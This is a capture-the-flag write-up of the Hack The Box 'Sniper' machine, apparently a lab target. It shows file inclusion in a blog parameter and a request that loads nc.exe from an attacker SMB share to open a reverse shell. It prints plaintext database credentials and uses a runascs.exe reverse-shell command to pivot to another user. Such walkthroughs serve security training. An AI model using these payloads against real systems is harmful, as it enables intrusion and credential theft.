
HTB: Sniper
Open ports
80/tcp open http Microsoft IIS httpd 10.0
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
49667/tcp open msrpc Microsoft Windows RPC
Shell as iusr
This URL looks like it could have lfi
http://10.10.10.151/blog/?lang=blog-en.php
and it does

dirbuster finds a db.php file located in the user directory. We can confirm it exists with lfi but we cannot see the file.

Putting our own smb share in we can see the machine authenticates to us but we dont get a hash


With RFI we can include a shell and have RCE

We can get a reverse shell using netcat
GET /blog/?lang=\\10.10.14.8\share\cmd.php&cmd=\\10.10.14.8\share\nc.exe+-e+cmd+10.10.14.8+443 HTTP/1.1Host: 10.10.10.151User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflate, brConnection: keep-aliveUpgrade-Insecure-Requests: 1

Shell as Chris
We can get credentials from the db.php file now
C:\inetpub\wwwroot\user>type db.phptype db.php<?php// Enter your Host, username, password, database below.// I left password empty because i do not set password on localhost.$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");// Check connectionif (mysqli_connect_errno()) { echo "Failed to connect to MySQL: " . mysqli_connect_error(); }?>
36mEAhz/B8xQ~2VMThere is another user named chris on the machine and the password above is correct for his user but we cannot use it with evil-winrm

I transferred runascs.exe to the machine so I can get a shell as chris
.\runascs.exe chris 36mEAhz/B8xQ~2VM cmd -r 10.10.14.8:9999
Got the admin hash and it cracks to $uperpassw0rd but its only valid for the website and not the actual admin password

Shell as administrator
The machine was very unstable and both my shells would die every 5 minutes and it was making enumerating extremely painful. I tried multiple shells and had no luck. Decided to use metasploit and I used an exploit that came out of the machine did so I didnt do the intended path.
Notice the shell died right after getting the flag. I had to rush through a meterpreter session to even try to get the flag.

